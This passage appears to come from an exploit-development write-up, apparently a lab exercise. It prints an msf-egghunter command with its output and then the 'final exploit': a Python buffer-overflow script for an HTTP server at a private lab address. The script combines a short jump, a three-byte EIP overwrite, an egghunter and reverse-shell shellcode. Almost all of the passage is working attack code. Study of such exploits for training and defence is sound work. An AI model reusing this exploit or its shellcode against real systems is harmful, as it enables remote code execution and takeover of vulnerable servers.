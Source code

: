 ```
/usr/bin/msf-egghunter -b "\x00\x0a\x3f" -a x86 -p windows -e "w00t" -f python
buf =  b""
buf += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
buf += b"\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75"
buf += b"\xea\xaf\x75\xe7\xff\xe7"
```

## Final exploit ##

When we put it all together exploit code is following:

```
#!/usr/bin/python                                                                                                                                

import socket
import time

host = "172.16.24.213"
port = 80

jump ="\xb0\x02\x3c\x01\x7f\x16"  # opcode for jumping 26 bytes
eip = "\x9c\x11\x42"              # three byte overwrite

# Egghunter
egghunter =  b""
egghunter += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
egghunter += b"\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75"
egghunter += b"\xea\xaf\x75\xe7\xff\xe7"

# Reverse shellcode
buf =  b""
buf += b"\xda\xc4\xb8\x8b\xf1\x1b\x53\xd9\x74\x24\xf4\x5e\x29"
buf += b"\xc9\xb1\x52\x31\x46\x17\x03\x46\x17\x83\x4d\xf5\xf9"
buf += b"\xa6\xad\x1e\x7f\x48\x4d\xdf\xe0\xc0\xa8\xee\x20\xb6"
buf += b"\xb9\x41\x91\xbc\xef\x6d\x5a\x90\x1b\xe5\x2e\x3d\x2c"
buf += b"\x4e\x84\x1b\x03\x4f\xb5\x58\x02\xd3\xc4\x8c\xe4\xea"
buf += b"\x06\xc1\xe5\x2b\x7a\x28\xb7\xe4\xf0\x9f\x27\x80\x4d"
buf += b"\x1c\xcc\xda\x40\x24\x31\xaa\x63\x05\xe4\xa0\x3d\x85"
buf += b"\x07\x64\x36\x8c\x1f\x69\x73\x46\x94\x59\x0f\x59\x7c"
buf += b"\x90\xf0\xf6\x41\x1c\x03\x06\x86\x9b\xfc\x7d\xfe\xdf"
buf += b"\x81\x85\xc5\xa2\x5d\x03\xdd\x05\x15\xb3\x39\xb7\xfa"
buf += b"\x22\xca\xbb\xb7\x21\x94\xdf\x46\xe5\xaf\xe4\xc3\x08"
buf += b"\x7f\x6d\x97\x2e\x5b\x35\x43\x4e\xfa\x93\x22\x6f\x1c"
buf += b"\x7c\x9a\xd5\x57\x91\xcf\x67\x3a\xfe\x3c\x4a\xc4\xfe"
buf += b"\x2a\xdd\xb7\xcc\xf5\x75\x5f\x7d\x7d\x50\x98\x82\x54"
buf += b"\x24\x36\x7d\x57\x55\x1f\xba\x03\x05\x37\x6b\x2c\xce"
buf += b"\xc7\x94\xf9\x41\x97\x3a\x52\x22\x47\xfb\x02\xca\x8d"
buf += b"\xf4\x7d\xea\xae\xde\x15\x81\x55\x89\xb5\x46\x4d\x85"
buf += b"\xae\x64\x6d\x04\x73\xe0\x8b\x4c\x9b\xa4\x04\xf9\x02"
buf += b"\xed\xde\x98\xcb\x3b\x9b\x9b\x40\xc8\x5c\x55\xa1\xa5"
buf += b"\x4e\x02\x41\xf0\x2c\x85\x5e\x2e\x58\x49\xcc\xb5\x98"
buf += b"\x04\xed\x61\xcf\x41\xc3\x7b\x85\x7f\x7a\xd2\xbb\x7d"
buf += b"\x1a\x1d\x7f\x5a\xdf\xa0\x7e\x2f\x5b\x87\x90\xe9\x64"
buf += b"\x83\xc4\xa5\x32\x5d\xb2\x03\xed\x2f\x6c\xda\x42\xe6"
buf += b"\xf8\x9b\xa8\x39\x7e\xa4\xe4\xcf\x9e\x15\x51\x96\xa1"
buf += b"\x9a\x35\x1e\xda\xc6\xa5\xe1\x31\x43\xd5\xab\x1b\xe2"
buf += b"\x7e\x72\xce\xb6\xe2\x85\x25\xf4\x1a\x06\xcf\x85\xd8"
buf += b"\x16\xba\x80\xa5\x90\x57\xf9\xb6\x74\x57\xae\xb7\x5c"

buffer = jump + " /%" + "\x43" * 10 + egghunter + "\x43" * (276 - 10 - len(jump) - len(eip) - 1 - len(egghunter)) + eip + " HTTP/1.1\r\n"
buffer += "Connection: close\r\n\r\n" + "w00tw00t"  + buf
```
